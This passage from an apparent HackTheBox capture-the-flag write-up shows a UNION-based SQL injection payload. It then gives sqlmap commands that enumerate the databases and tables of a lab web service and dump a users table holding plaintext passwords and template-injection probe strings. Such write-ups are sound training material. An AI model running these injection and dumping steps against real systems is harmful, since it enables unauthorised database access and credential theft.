```
    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: uuid=-9189' UNION ALL SELECT CONCAT(0x7178767a71,0x6d774d6a6e51764a4a746445434f76726a724f6f4f4567756b7252505379416772516c696d634955,0x717a6a7071)-- -
---
[11:50:28] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12                                                     ...[snip]...

```

It shows the same injection point I found with `UNION`, as well as some blind alternatives. From here, standard `sqlmap` enumeration. List DBs:

```

0xdf@parrot[~/hackthebox/spider-10.10.10.243]$ sqlmap -u 'http://127.0.0.1:5000/?uuid=1e05713d-9b4e-4d2c-938b-c5673866ee3e' -p uuid --dbs
...[snip]...
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] shop
[*] sys
...[snip]...

```

List the tables in `shop`:

```

oxdf@parrot$ sqlmap -u 'http://127.0.0.1:5000/?uuid=1e05713d-9b4e-4d2c-938b-c5673866ee3e' -p uuid -D shop --tables
...[snip]...
Database: shop
[4 tables]
+----------+
| items    |
| messages |
| support  |
| users    |
+----------+
...[snip]...

```

Dump the `users` table:

```

oxdf@parrot$ sqlmap -u 'http://127.0.0.1:5000/?uuid=1e05713d-9b4e-4d2c-938b-c5673866ee3e' -p uuid -D shop -T users --dump
...[snip]...
Database: shop
Table: users
[7 entries]
+----+--------------------------------------+------------+-----------------+
| id | uuid                                 | name       | password        |
+----+--------------------------------------+------------+-----------------+
| 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
| 2  | 2185aa99-1f1d-48f6-a835-2410496118d3 | 0xdf       | 0xdf            |
| 3  | fa3975ea-f2d2-4253-9427-4fab9646781f | 0xdf       | 0xdf            |
| 4  | 394160c8-b105-4e73-9c2e-cec37580e8a3 | 0xdf'      | 0xdf            |
| 5  | 63b03184-ec08-411a-bc74-d266797c315d | {{config}} | 0xdf            |
| 6  | 30b4268c-ffb0-4b39-a006-78f39c135921 | {{3*3}}    | q               |
| 7  | 138f3d2f-4da5-44c2-aff1-f243ed2c368a | {{config}} | q               |
```